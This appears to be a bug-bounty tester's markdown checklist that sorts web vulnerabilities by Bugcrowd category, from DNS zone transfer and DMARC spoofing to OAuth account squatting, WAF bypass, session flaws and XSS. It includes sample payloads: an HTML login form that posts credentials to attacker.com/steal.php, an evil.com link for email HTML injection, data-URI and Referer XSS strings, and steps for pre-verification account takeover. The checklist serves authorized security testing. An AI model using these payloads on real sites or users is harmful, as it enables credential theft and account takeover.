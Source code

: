 > ***Server Security Misconfiguration > Misconfigured DNS > Zone Transfer***
- [ ] [DNS-ZONE-TRANSFER-CHECKER](https://pentest-tools.com/network-vulnerability-scanning/dns-zone-transfer-check)

>***Server Security Misconfiguration > Mail Server Misconfiguration > Email Spoofing to Inbox due to Missing or Misconfigured DMARC on Email Domain***
- [ ] [DMARC-Inspector](https://dmarcian.com/dmarc-inspector/)
- [ ] [POC](https://emkei.cz/)

> **Server Security Misconfiguration > Database Management System (DBMS) Misconfiguration > Excessively Privileged User / DBA**
- [ ] [[API5 Broken Function Level Authorization (BFLA)]]

>**Server Security Misconfiguration > Lack of Password Confirmation > Delete Account**

- [ ] Check for any confirmations when deleting password

>**Server Security Misconfiguration > No Rate Limiting on Form**
- [ ] Registration
- [ ] login
- [ ] Email Triggering
- [ ] SMS-Triggering
1. bugcrowd alias h0tak88r+1@bugcrowdninja.com -> Intruder -> [[No-Rate-Limit]] 

>***Server Security Misconfiguration > Missing Secure or HTTPOnly Cookie Flag > Session Token***
- [ ] Check for HTTPOnly Cookie Flag for thr session token and be sure it Really session token

>***Server Security Misconfiguration > Lack of Security Headers > Cache-Control for a Sensitive Page***
- [ ] Open Sensitive-Response  Page -> No Cache Control or No Expire -> Close Browser -> Send request in burp -> Observe that You can see the same/cached response 

>***Server Security Misconfiguration > Clickjacking > Sensitive Click-Based Action***
- [ ] Click Based Actions

>****Server Security Misconfiguration > OAuth Misconfiguration > Account Squatting | Pre-ATO***
1. Register an account via victim email or Change your account to unsigned-victim email if there is no confirmation from victim side 
2. Don't Confirm the email
3. Victim register with OAUTH and login his account 
4. Attacker use Credentials in Step(1) to login to the account 

>***Server Security Misconfiguration > CAPTCHA > Implementation Vulnerability***
- [ ] [[CAPTCHA Feature]]

>***Server Security Misconfiguration > Web Application Firewall (WAF) Bypass > Direct Server Access***
- [ ] Check for original IP in shodan.io or other Alternatives (ipcriminal,....) and make sure it doesn't implement WAF

>***Server-Side Injection > Content Spoofing***
- [ ] Check  For Impersonation via <span style="color:#06ea6c">Broken Link Hijacking</span> via this [Extension](https://addons.mozilla.org/en-US/firefox/addon/find-broken-links/)
- [ ] Check for <span style="color:#06ea6c">Email HTML Injection</span> -> by Injecting in all Fields -> `<a href="https://evil.com">Click me to Win 100$</a>` -> Email Triggering Action -> Input Field Rendered as HTML content in email

>****Server-Side Injection > Server-Side Template Injection (SSTI) > Basic***
- [ ] Basic SSTI That u couldn't exploit Further [[SSTI]] ->  [[Parameters Analysis]]

>***Server-Side Injection > Content Spoofing > External Authentication Injection***
- [ ] Try Using HTML Injection to Inject a External Authentication Form to Still Credentials from the user
```html
<form action="https://attacker.com/steal.php" method="POST">
	<label for="username">Username:</label>
	<input type="text" id="username" name="username" required>

	<label for="password">Password:</label>
	<input type="password" id="password" name="password" required>

	<button type="submit">Log In</button>
</form>
```

>***Broken Authentication and Session Management***

- [ ] Failure to Invalidate Session -> On Password Reset and/or Change 
- [ ] Failure to Invalidate Session > On Logout (Client and Server-Side)
	-  In order for this to qualify for the client and server-side variant, you'd need to demonstrate that the session identifiers are not removed from the browser at the time of log out 
- [ ] Clear-text Transmission of Session Token
	- there is no `secure` flag for the session token 
	- `curl http://example.com/path/to/resource`
- [ ] Registration over HTTP
- [ ] Login over HTTP/Or any 

>***Sensitive Data Exposure***

- [ ] Pay-Per-Use-Abuse ( API_Keys, Paid Services Tokens,....)
- [ ] EXIF Geo-location Data Not Stripped From Uploaded Images > Manual User Enumeration
- [ ] Token Leakage via Referer > Untrusted 3rd Party
- [ ] Weak Password Reset Implementation > Password Reset Token Sent Over HTTP
- [ ] Sensitive Token in URL > User Facing
- [ ] Via localStorage/sessionStorage > Sensitive Token

>  **XSS**
- [ ] Stored > Privileged User to No Privilege Elevation
- [ ] Universal (UXSS) -> Data URI -> `data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=`
- [ ] Referer XSS -> `Referer: http://www.google.com/search?hl=en&q=c5obc'+alert(1)+'p7yd5`

>  ***Broken Access Control (BAC) > Server-Side Request Forgery (SSRF) > External***
- [ ] Low Impact of SSRF Vuln, the impact of "external SSRF" is believed to be DoS, information disclosure (in the request), and origin IP disclosure

> ***Broken Access Control (BAC) > Username/Email Enumeration > Non-Brute Force***
- [ ] Found [[IDOR]] or [[Authorization-Schema]] that Leaks Usernames/Emails

> ***Unvalidated Redirects and Forwards > Open Redirect > GET-Based***
- [ ] [[Open Redirect]]

> ***Insufficient Security Configurability*** 
- [ ] No Password Policy -> Password:`123`
- [ ] Weak Password Reset Implementation > Token is Not Invalidated After Use
- [ ] Weak 2FA Implementation > 2FA Secret Cannot be Rotated
	Rotating the secret means changing this key periodically to enhance security. If the 2FA secret cannot be rotated, it means that once the secret is compromised, an attacker could potentially gain ongoing access to the account without the user’s knowledge, as there is no way for the user to change the secret.
- [ ] Weak 2FA Implementation > 2FA Secret Remains Obtainable After 2FA is Enabled
	Look for Leaked 2FA Secret after acticvating 2FA
